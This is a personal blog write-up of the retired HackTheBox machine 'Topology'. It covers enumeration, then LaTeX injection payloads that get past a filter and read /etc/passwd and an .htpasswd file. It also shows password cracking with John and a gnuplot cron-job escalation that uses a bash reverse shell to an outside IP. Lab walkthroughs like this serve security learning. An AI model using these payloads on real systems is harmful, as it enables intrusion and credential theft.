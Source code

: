 ```yaml
---
title: "Topology HackTheBox"
layout: post
date: 2023-11-04 20:00
tag: 
- HackTheBox
- Pentesting
- Topology
- Linux
- Easy
- Gnuplot
- LaTeX
image: https://www.hackthebox.com/storage/avatars/cbfa26b4a4044677e93779a44bbd458f.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

An easy HackTheBox machine that envolves a virtual host which is vulnerable to LaTeX injection vulnerability.

---

# Nmap

```bash
nmap -A -T4 10.10.11.217
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 12:55 +01
Nmap scan report for 10.10.11.217
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two ports open, let's check the web page at port 80 :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031125816.png>)

I added the `topology.htb` to my */etc/hosts* and started enumerating for hidden directories or subdomains, Gobuster didn't output anything useful, but ffuf did :

# Fuff

```bash
ffuf -u http://topology.htb -c -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt -H "Host: FUZZ.topology.htb" -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 194ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 1418ms]
:: Progress: [2280/2280] :: Job [1/1] :: 23 req/sec :: Duration: [0:00:54] :: Errors: 0 ::
```

The `dev.topology.htb` requires authorization :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151647.png>)

I went back to my web page and found there is a project about LaTeX :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143758.png>)

When I clicked on it, it redirects me to another subdomain `latex.topology.htb` :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143827.png>)

There I can use the equation generator to create a PNG file :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143944.png>)

So I thought about some sort of LaTeX injection which I found that it does exists :

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

I tired the bellow payload but I see there is a filtering :

```bash
\input{/etc/passwd}
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144014.png>)

The payload bellow actually worked so we bypassed the first part of filtering now I should customize it to bypass there filter :

```bash
\lstinputlisting{/etc/passwd}
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144205.png>)

```bash
$\lstinputlisting{/etc/passwd}$
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144332.png>)

And yes by adding $ I was able to bypass it, now I can read files on the server :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144408.png>)

I remembered the subdomain found before `dev.topology.htb` and said let's try if I can read the .htpasswd file which is used to store usernames and password for basic authentication of HTTP users :

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031145635.png>)

And that was the case, we found credentials of `vdaisley` user, I needed just to crack the encrypted password using John :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031145614.png>)

`vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:05 DONE (2023-10-31 15:10) 0.1964g/s 195621p/s 195621c/s 195621C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

`vdaisley : calculus20`

Now I can access the `dev.topology.htb`, there was nothing useful so I tried if there is password reusing to login via SSH :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151611.png>)

# User flag

Fortunately that was the case and I am in as `vdaisley` user :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151722.png>)

# PE

While trying to privesc, I checked running processes using pspy tool and found there is a process running every minute by root which looks for files with .plt extension in */opt/gnuplot* and executes them.

>Gnuplot is a command-line and GUI program that can generate two and three-dimensional plots of functions, data, and data fits.

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154344.png>)

I have write permissions on the */opt/gnuplot* directory, so I thought about creating a malicious plt file which will be executed by root and privesc :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154427.png>)

 https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation

```bash
system "bash -c 'bash -i >& /dev/tcp/10.10.14.141/9999 0>&1'"
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154916.png>)

I created a file named 'exploit.plt' and waited till it's executed and BOOM I got a root shell :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154951.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>